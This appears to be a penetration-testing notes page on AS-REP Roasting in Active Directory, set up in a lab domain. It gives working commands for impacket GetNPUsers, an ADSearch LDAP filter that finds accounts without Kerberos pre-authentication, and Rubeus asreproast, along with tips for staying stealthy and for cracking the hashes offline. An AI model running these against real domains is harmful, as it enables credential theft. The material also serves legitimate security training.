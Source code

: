 # Active Directory Attacks

## AS-REP Roasting

This attack is possible due to Kerberos PRE-AUTH is disabled on the specific domain account.

### Attack Simulation

To simulate this attack, we will be using user Sam Walker, go to your DC and Sam Walker's user property.

Under the Account tab, tick the "**Do not require Kerberos preauthentication**" options and apply the changes.

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/TbRUojmPWFY0NjFn-image.png" alt=""><figcaption></figcaption></figure>

### Running Attack

#### **On linux:**

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile users -format john -dc-ip 10.10.10.161
```

***

#### **On windows:**

If the steps below doesn't work, try running them again with a NT AUTHORITY\SYSTEM privilege shell.

For a stealthier attack, we will first try to find account with the preauthentication option checked. [ADSearch](https://github.com/Flangvik/SharpCollection) is a great tool for this.

```shell
ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/UJDsFhnR7dzLtXD8-image.png" alt=""><figcaption></figcaption></figure>

_userAccountControl:1.2.840.113556.1.4.803:=4194304_ <= **4194304** is the decimal value for **DONT\_REQ\_PREAUTH**

For more information about the userAccountControl attribute, refer to [https://eddiejackson.net/wp/?p=16387](https://eddiejackson.net/wp/?p=16387)

Now that we get which user has the attribute checked, we can do the roasting with [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries).

```shell
Rubeus.exe asreproast /user:swalker /nowrap
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/qCTEt0QtIejVF6xW-image.png" alt=""><figcaption></figcaption></figure>

You can now crack the hash using hashcat or john.

If you don't care about the noises generated while running the attack, you can also just do AS-REP roasting with Rubeus without specifying a user. It will attempt to roast all users and will return the result for any successfully retrieved hash.\
